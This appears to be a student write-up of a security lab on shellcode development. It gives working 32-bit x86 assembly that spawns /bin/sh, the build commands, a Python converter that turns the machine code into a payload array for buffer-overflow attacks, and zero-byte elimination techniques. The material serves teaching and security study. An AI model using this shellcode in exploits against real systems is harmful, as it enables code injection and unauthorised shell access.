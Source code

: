 # SEEDLabs -- Shellcode Development Lab

## Overview
Shellcode is widely used in many attacks that involve code injection. Although we can easily find existing shellcode on the Internet, there are situations where we require a shellcode which has to satisfy certain conditions.

There are several challenges in writing shellcode, one is to ensure that there are no zeroes in the binary, and the other is to find the addresses of data used in the command. 
* The first challenge is not very difficult to overcome, and there are several techniques that can be employed. 
* Solutions to the second challenge led to two typical approaches to writing shellcode. 
  * In one approach, data is pushed into the stack during the execution, so that their addresses can be obtained from the stack pointer. 
  * In the second approach, the address of the data is stored in the code region, right after a `call` instruction. When the `call` instruction is executed, the address of the data is treated as the return address, and is pushed into the stack. 

In this lab, we aim to understand the techniques employed in writing shellcode by writing our own shellcode. The following topics are covered here:

1. Shellcode
2. Assembly code
3. Disassembly

## Task 1. Writing Shellcode

Here, we first begin with an example shellcode. Subsequently, the shellcode will be modified to accomplish various tasks. 

Shellcode is typically written using assembly languages, which depend on the computer architecture. In this lab, we will be using the 32-bit Intel architecture (for `x86` processors). In the final task, we will look at the 64-bit Intel architecture.

### 1a: An overview of the process

A basic example of a shellcode `mysh.s` is provided for the lab:

```assembly
; mysh.s

section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor  eax, eax 
      push eax          ; Use 0 to terminate the string
      push "//sh"
      push "/bin"
      mov  ebx, esp     ; Get the string address

      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] points "/bin//sh"
      mov  ecx, esp     ; Get the address of argv[]
   
      ; For environment variable 
      xor  edx, edx     ; No env variables 

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```

We can compile this assembly code using `nasm` -- an assembler and disassembler for the Intel `x86` and `x64` architectures. The option `-f elf32` indicates that we want to assemble the code to 32-bit ELF *object code*. The full command is:

```sh
~$ nasm -f elf32 mysh.s -o mysh.o
```

> **Object code** is a sequence of statements or instructions in a computer language (typically binary machine code). It is the machine code for one particule library or module that will make up the completed product. 

This produces the *object code* `mysh.o`. To generate the executable binary, we use the *linker* `ld`. The option `-m elf_i386` indicates that we want to generate the 32-bit ELF binary. The full command is: 

```sh
~$ ld -m elf_i386 mysh.o -o mysh
```

> The **linker** takes one or more object files (generated by a compiler or an assembler; may be from a library) and combines them into a single executable file.

This gives us the final executable `mysh`. Running the executable gives us a shell. We can verify that a new shell process has spawned by checking the current shell's process ID using `echo $$`. 

![mysh](./img/mysh_spawn_new.png "mysh")

In the image, `7822` is the process ID of original shell, and `7853` is the process ID of the shell spawned by `mysh`.

For the attack, we only need the machine code of the shell code, and not a standalone executable file (which contains data other than the actual machine code). Technically, only the machine code is called *shellcode*. Thus, we need to extract the machine code from the executable file or the object file. There are various ways to do this.

1. We can use `objdump` to disassemble the executable or object file.
   
   ![mysh objdump](./img/mysh_objdump.png "mysh objdump")

   In the image, the hexadecimal numbers in the red box form the machine code. 

   > Note that there are two common syntax modes for assembly code: the AT&T syntax, and the Intel syntax. By default, `objdump` uses the AT&T syntax. Here, we use the option `-Mintel` to specify that we want the Intel syntax

2. Alternatively, we can use `xxd` to print out the contents of the object file, and we should be able to find the machine code.

     ![mysh xxd](./img/mysh_xxd.png "mysh xxd")

     In the image, the hexadecimal numbers in the red box form the machine code.

Finally, in actual attacks, the shellcode need to be included in the attacking code (payload), such as a Python or C program. To convert the machine code into an appropriate array, the Python script `convert.py` is provided: 

```python
# convert.py

#!/usr/bin/env python3

# Run "xxd -p -c 20 rev_sh.o",
# copy and paste the machine code to the following:
ori_sh ="""
copy and paste machine code here
"""

sh = ori_sh.replace("\n", "")

length  = int(len(sh)/2)
print("Length of the shellcode: {}".format(length))
s = 'shellcode= (\n' + '   "'
for i in range(length):
    s += "\\x" + sh[2*i] + sh[2*i+1]
    if i > 0 and i % 16 == 15: 
       s += '"\n' + '   "'
s += '"\n' + ").encode('latin-1')"
print(s)
```

Replacing the variable `ori_sh` in the Python script with the machine code for `mysh.o`, we get the following output:

![mysh_convert](./img/mysh_convert.png "mysh convert")

### 1b: Eliminating zeros from the shellcode

Shellcode is widely used in buffer-overflow attacks. In many cases, the vulnerabilities are caused by string copy, such as the `strcpy()` function. For these string copy functions, the zero byte `\x00` is considered as the end of the string. Therefore, if we have a zero in the middle of the shellcode, string copy will only copy the shellcode up to the zero, to the target buffer, and the attack will fail. 

Although not all vulnerabilities have issues with zero bytes, it is a requirement for shellcode not to have any zeros in the machine code. Otherwise, the application of the shellcode will be limited. 

There are various techniques that can get rid of zeros in the shell code:

* If we want to assign zero to a register, say `eax`, we would naively use the instruction `mov eax, 0`. However, this results in a zero in the machine code. To solve this problem, the typical method is to use the **equivalent instruction** `xor eax, eax`. To see how this works, let us look at the truth table of XOR: 

  |  A  |  B  | A XOR B |
  |:---:|:---:|:-------:|
  |  0  |  0  |    0    |
  |  0  |  1  |    1    |
  |  1  |  0  |    1    |
  |  1  |  1  |    0    |

  From this, we can see that whenever the two operands match, the outcome of the XOR operation is `0`. Thus, the result of the instruction `xor eax, eax` is `0x00000000` which is stored back into `eax`. 

  We can explicitly see the difference in the machine code using the following example `xor.s`:

  ```assembly
  ; xor.s

  section .text
  global _start
    _start:
      ; Comparing between mov and xor for setting register to zero
      mov  eax, 0    ; using mov to set to zero
      xor  eax, eax  ; using xor to set to zero
  ```
  Compiling it into object code and using `objdump`, we get the following result:

  ![mov vs xor](./img/mov_vs_xor.png "mov vs xor")

  Looking at the machine code in red, we see that the `mov` instruction results in four zeros in the machine code, while the `xor` instruction has no zeros. Both instructions result in the register `eax` having the value `0x00000000`.

* If we want to store, say an 8-bit number like `0x99` into a 32-bit register like `eax`, We cannot simply use `mov eax, 0x99`. The compiler will pad the 8-bit number with zeros to become a 32-bit number -- so the operand becomes `0x00000099` which has three zeros. To overcome this, we can first set `eax` to zero (using the `xor` trick), and then assign the 8-bit number `0x99` to the `al` register, which refers to the least significant 8-bits of the `eax` register.

    > For the four of the general purpose 32-bit registers in the `x86` architecture -- `eax`, `ebx`, `ecx` and `edx`, we may refer to their subsections. Taking `eax` as an example, we may refer to the lower 16-bits of the register by `ax`. Within `ax`, we can refer to the lower 8-bits by `al` and the upper 8-bits by `ah`.
    ![Register aliasing](./img/register_alias.png "Register aliasing")

